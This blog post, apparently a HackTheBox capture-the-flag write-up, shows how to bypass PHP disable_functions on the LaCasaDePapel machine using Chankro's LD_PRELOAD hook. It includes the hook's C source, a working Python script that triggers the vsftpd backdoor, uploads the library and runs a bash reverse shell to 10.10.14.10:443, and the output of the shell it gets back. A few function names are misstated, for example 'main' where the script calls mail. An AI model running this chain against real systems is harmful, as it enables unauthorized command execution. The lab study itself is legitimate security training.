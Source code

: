 

# Bypassing PHP disable_functions with Chankro

#ctf #hackthebox #htb-lacasadepapel #chankro #php #php-disable-functions
#htb-hackback Aug 2, 2019






-   [LaCasaDePapel Writeup](/htb-lacasadepapel.md)
-   [Chankro](#)




![](/img/chankro-cover.png)I was reading
[Alamot's LaCasaDePapel
writeup](https://alamot.github.io/lacasadepapel_writeup/#getting-dali-shell-by-escaping-php-restrictions),
and they went a different way once they got the php shell. Instead of
just using the php functions to find the certificate and key needed to
read the private members https page, Alamot uses Chankro to bypass the
disabled execution functions and run arbitrary code anyway. I had to try
it.

## Background

[Chankro](https://github.com/TarlogicSecurity/Chankro) is a tool for
bypassing `disable_functions` in php to get execution anyway. It is
common for content owners to set up php with `disable_functions` set to
prevent `system`, `shell`, etc. That, in theory, prevents an attacker
who finds a way to run arbitrary php code (file upload + local file
include, for example) from getting command execution on the host.

On Linux hosts, when the php function `mail` is called, it invokes the
binary `sendmail`. The idea with Chankro is to set the `LD_PRELOAD`
environment variable to include a shared library and then call `mail`,
and the shared library will get execution.

`hook.c`, which compiles to`hook32.so` and `hook64.so` is pretty simple:



    #define  _GNU_SOURCE
    #include <stdlib.h>
    #include <string.h>
    #include <sys/types.h>
    #include <sys/stat.h>
    #include <signal.h>
    #include <unistd.h>


    void pwn(void) {
            chmod(getenv("CHANKRO"), 00777);
            system(getenv("CHANKRO"));
    }

    void daemonize(void) {
            signal(SIGHUP, SIG_IGN);
            if (fork() != 0) {
                    exit(EXIT_SUCCESS);
            }
    }

    __attribute__ ((__constructor__)) void preloadme(void) {
      unsetenv("LD_PRELOAD");
      daemonize();
      pwn();
    }



It basically cleans up the `LD_PRELOAD` environment variable and then
gets the name of a binary from the `CHANKRO` environment variable,
changes the permissions to 777, and calls it with `system`.

There is a python script in the repo to run it, but for these use cases,
the more useful path is four steps:

1.  Upload the `.so` file and a file to execute (shell script or elf).
2.  Set the environment variable `LD_PRELOAD` to point to the `.so`.
3.  Set the environment variable `CHANKRO` to point to the file to
    execute.
4.  Run `main('a','a','a','a');` in php.

That will result in execution of the script.

## LaCasaDePapel

The biggest challenge here is to get the `.so` file uploaded to target.
I was unable to get it to work using base64 and `file_put_contents`, as
it's too big. So I opted to go the same route as Alamot and script it. I
took my generic
[vsftpd_backdoor.py](https://gitlab.com/0xdf/ctfscripts/blob/master/vsftpd2.3.4-backdoor/vsftpd_backdoor.py)
and modified it to upload and trigger Chankro. This code is pretty
sloppy, but I just threw it together for testing purposes:



    #!/usr/bin/env python

    import sys
    import time
    from pwn import *

    if len(sys.argv) < 2:
        print("%s [ip] [port = 21]" % sys.argv[0])
        print("port defaults to 21 if not given")
        sys.exit()
    elif len(sys.argv) == 2:
        port = 21
    else:
        port = int(sys.argv[2])
    target = sys.argv[1]

    print("[*] Connecting to %s:%d" % (target, port))
    ftp = remote(target, port)
    ftp.sendline(b'USER 0xdf:)')
    ftp.sendline(b'PASS 0xdf')
    time.sleep(2)
    ftp.close()
    print('[+] Backdoor triggered')
    print('[*] Connecting')

    try:
        psy = remote(target, 6200)
    except KeyboardInterrupt:
        print("[!] Exiting Shell")
        exit(1)

    print("[*] Uploading chankro.so")
    psy.sendline("$f = fopen('/tmp/chankro.so', 'w');")
    with open('/opt/Chankro/hook64.so', 'rb') as f:
        while True:
            d = f.read(1024)
            if not d:
                break
            psy.sendline("fwrite($f, base64_decode('%s'));" % base64.b64encode(d))

    psy.sendline("fclose($f)")
    print("[+] Uploaded chankro.so")
    shell = base64.b64encode("bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'")
    psy.sendline("file_put_contents('/tmp/acpid.socket', base64_decode('%s'))" % shell)
    print("[+] Uploaded shell as /tmp/acpid.socket")
    psy.sendline("putenv('CHANKRO=/tmp/acpid.socket');")
    psy.sendline("putenv('LD_PRELOAD=/tmp/chankro.so');")
    print("[+] Set env variables")
    print("[*] Triggering with mail call\n[*] Waiting for shell. This could take a minute.")
    psy.sendline("mail('a','a','a','a');")
    psy.close()

    dali = listen(443).wait_for_connection()
    dali.interactive()



When I run this, I get a shell back as dali:



    root@kali# ./lacasadepapel_dali_shell.py 10.10.10.131
    [*] Connecting to 10.10.10.131:21
    [+] Opening connection to 10.10.10.131 on port 21: Done
    [*] Closed connection to 10.10.10.131 port 21
    [+] Backdoor triggered
    [*] Connecting
    [+] Opening connection to 10.10.10.131 on port 6200: Done
    [*] Uploading chankro.so
    [+] Uploaded chankro.so
    [+] Uploaded shell as /tmp/acpid.socket
    [+] Set env variables
    [*] Triggering with mail call
    [*] Waiting for shell. This could take a minute.
    [*] Closed connection to 10.10.10.131 port 6200
    [+] Trying to bind to 0.0.0.0 on port 443: Done
    [+] Waiting for connections on 0.0.0.0:443: Got connection from 10.10.10.131 on port 37892
    [*] Switching to interactive mode
    bash: cannot set terminal process group (3121): Not a tty
    bash: no job control in this shell
    bash-4.4$ $ id
    id
    uid=1000(dali) gid=1000(dali) groups=1000(dali)



## Conclusion

My mind immediately went to
[HackBack](/htb-hackback.md#php-log-poisoning) when I saw
this technique, as it would have allowed me to get a shell I was not
able to get ([in a solid
way](/htb-hackback.md#aspx-webshell)) before. However, I
quickly realized HackBack is a Windows box, so the technique doesn't at
all apply. I can upload files, but calling mail will do something
different, and there's no `LD_PRELOAD` in Windows, at least not in a way
I can interact with at this point. It would be an interesting area of
research to see if there are ways to bypass `disable_functions` on
Windows.

Still, for Linux boxes, this is a really cool way to get around a common
protection. As an administrator, it's probably best to add both `main`
and `setenv` to the `disable_functions` list, as either would prevent
this attack.


[« LaCasaDePapel Writeup](/htb-lacasadepapel.md)






